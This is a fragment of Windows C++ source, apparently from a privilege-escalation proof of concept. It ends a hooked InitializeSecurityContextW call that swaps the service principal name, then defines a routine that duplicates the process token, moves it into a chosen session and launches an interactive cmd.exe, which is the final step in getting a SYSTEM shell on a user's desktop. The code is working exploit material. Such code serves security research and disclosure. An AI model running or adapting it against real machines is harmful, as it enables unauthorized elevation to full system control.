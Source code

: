 ```c++
    printf("InitializeSecurityContext called for target %ls\n", pszTargetName);
    SECURITY_STATUS status = InitializeSecurityContextW(phCredential, phContext, &spn[0], 
        fContextReq, Reserved1, TargetDataRep, pInput,
        Reserved2, phNewContext, pOutput, pfContextAttr, ptsExpiry);
    printf("InitializeSecurityContext status = %08X\n", status);
    return status;
}

int RunSystemProcess(const wchar_t* sid)
{
    HANDLE hToken;
    if (!OpenProcessToken(GetCurrentProcess(), TOKEN_DUPLICATE, &hToken))
    {
        printf("Error opening process token %d\n", GetLastError());
        return 1;
    }
    HANDLE hPrimaryToken;
    if (!DuplicateTokenEx(hToken, TOKEN_ALL_ACCESS, nullptr, SecurityAnonymous, TokenPrimary, &hPrimaryToken))
    {
        printf("Error duplicating process token %d\n", GetLastError());
        return 1;
    }

    DWORD session_id = wcstoul(sid, nullptr, 0);
    if (!SetTokenInformation(hPrimaryToken, TokenSessionId, &session_id, sizeof(session_id)))
    {
        printf("Error setting session ID %d\n", GetLastError());
        return 1;
    }

    STARTUPINFO start_info = {};
    WCHAR desktop[] = L"WinSta0\\Default";
    start_info.cb = sizeof(start_info);
    start_info.lpDesktop = desktop;
    start_info.wShowWindow = SW_SHOW;

    WCHAR cmdline[] = L"cmd.exe";
    PROCESS_INFORMATION proc_info = {};
    if (!CreateProcessAsUser(hPrimaryToken, nullptr, cmdline, nullptr, nullptr, FALSE,
        CREATE_NEW_CONSOLE, nullptr, nullptr, &start_info, &proc_info))
    {
        printf("Error creating process %d\n", GetLastError());
        return 1;
    }

    CloseHandle(proc_info.hProcess);
    CloseHandle(proc_info.hThread);
    printf("Created process ID %d\n", proc_info.dwProcessId);

    return 0;
}

std::wstring GetExecutablePath()
{
    WCHAR path[MAX_PATH];
    if (GetModuleFileName(nullptr, path, MAX_PATH) != 0)
    {
        return path;
    }
    printf("Error getting executable path %d\n", GetLastError());
    return L"";
}
```